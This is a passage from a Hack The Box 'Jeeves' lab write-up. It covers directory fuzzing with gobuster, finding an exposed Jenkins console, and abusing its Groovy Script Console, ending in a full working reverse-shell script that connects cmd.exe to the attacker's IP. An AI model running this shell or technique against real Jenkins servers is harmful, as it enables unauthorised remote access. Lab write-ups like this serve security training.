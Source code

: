 ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%201.png)

### Fuzzing Diretório WEB

```bash
gobuster dir -u http://10.10.10.63/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -e --no-error -r -x txt,php,html
```

Didn't return anything interesting.

We try fuzzing in port 50000, we found a URL that is running Jenkins Web App 

```bash
gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -e --no-error -r -x txt,php,html
```

```
===============================================================
[http://10.10.10.63:50000/askjeeves](http://10.10.10.63:50000/askjeeves)    (Status: 200) [Size: 11521]
===============================================================
```

`http://10.10.10.63:50000/askjeeves`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%202.png)

This app, Jenkins, already has a known vulnerability that gives us a reverse shell. We'll explore this in the next step.

# Exploration

## Exploring Jenkins

> **Refer:** [https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
>
{: .prompt-info }

In Jenkins, in the field “Script Console”, inside the field “Manage Jenkins”, there is an area that accepts Groovy script. In this field we will place our “Reverse Groove”.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%203.png)

Here we put our reverse groove, as the machine is Windows, so we set it to call a cmd.exe.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%204.png)

```groovy
String host="10.10.14.9";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
